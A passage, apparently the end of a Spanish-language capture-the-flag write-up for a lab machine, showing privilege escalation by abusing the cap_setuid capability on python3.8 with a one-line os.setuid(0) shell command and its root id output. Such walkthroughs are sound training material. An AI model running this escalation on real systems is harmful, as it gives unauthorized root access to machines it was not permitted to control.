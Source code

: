 Parece que tenemos la capabilitie "cap_setuid" en python3.8, podemos aprovecharnos de esto para entrar en un contexto de root. Vamos a cambiar nuestro UID por el de root.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# 
```

Ya hemos pwneado la máquina, espero que te haya servido.

